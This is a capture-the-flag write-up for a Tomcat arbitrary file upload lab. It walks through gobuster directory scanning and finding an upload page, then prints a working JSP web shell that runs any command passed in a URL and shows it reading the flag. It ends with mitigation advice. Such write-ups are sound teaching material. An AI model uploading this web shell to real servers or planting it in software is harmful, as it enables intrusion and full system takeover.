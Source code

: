 # Arbitrary File Upload - GetBackShell Lab

## Overview

**Arbitrary File Upload** is a critical vulnerability that arises when a web application fails to properly validate uploaded files. This allows an attacker to upload malicious files (such as web shells), potentially resulting in **Remote Code Execution (RCE)**, data compromise, or full system takeover.

This lab demonstrates how improper validation in a file upload feature can be exploited to gain unauthorized access to the server.

---

## Objectives

- Discover and analyze the file upload functionality.
- Identify accepted file types and upload behavior.
- Craft and upload a malicious JSP web shell.
- Achieve RCE and retrieve the flag from the server.

---

## Lab Details

- **Lab:** [GetBackShell](https://defhawk.com/battleground/practice-lab/all-categories/web/getbackshell)
- **Target URL:** `http://ai.ctf.defhawk.com:8080/`
- **Stack:** Apache Tomcat 9.0.106 (Java-based)

![Landing Screenshot](Screenshot%20From%202025-07-13%2003-12-15.png)

---

## 1. Reconnaissance

Since the server uses **Apache Tomcat**, it likely accepts **JSP (Java Server Pages)** files.

Start by performing directory brute-force scanning using `gobuster`:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080 -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster Initial](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-41-26.png?raw=true)

- Found endpoint: `/app`

Exploring `http://ai.ctf.defhawk.com:8080/app` didn't reveal much, so we enumerate further:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080/app -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster App](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-48-52.png?raw=true)

- Discovered: `/app/images`, `/app/uploads`
- Still no visible upload functionality.

### Upload Endpoint Found

After further fuzzing, located the endpoint:

```
/app/upload.jsp
```

![Upload JSP](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-56-47.png?raw=true)

---

## 2. Exploitation

The upload form presents three file input parameters.

Test by uploading a simple JSP-based web shell like:

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
    }
%>
```

Upload the file. The server does not restrict file type or validate content:

![Upload Success](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-03-31.png?raw=true)

Access the shell through:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=pwd
```

![Shell pwd](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-06-30.png?raw=true)

You now have remote code execution on the server.

---

## 3. Capture the Flag

Run commands via the web shell to navigate and read the flag:

### List directory contents:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=ls
```

![List](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-13-07.png?raw=true)

### Read the flag:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=cat flag.txt
```

![Flag](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-14-06.png?raw=true)

Flag retrieved successfully.

---

## Mitigation Strategies

To prevent arbitrary file upload vulnerabilities:

- Whitelist allowed file extensions.
- Validate MIME types and file signatures (magic bytes).
- Rename files server-side using random UUIDs.
- Store uploaded files outside the web root if not meant for execution.
- Disable script execution in upload directories.
- Implement size and content filters.

---

## Summary

This lab showcased a classic Arbitrary File Upload vulnerability on an Apache Tomcat server. Through directory fuzzing and a JSP web shell upload, we gained remote code execution and retrieved the flag.

Always validate, sanitize, and control file upload mechanisms to secure your web application.
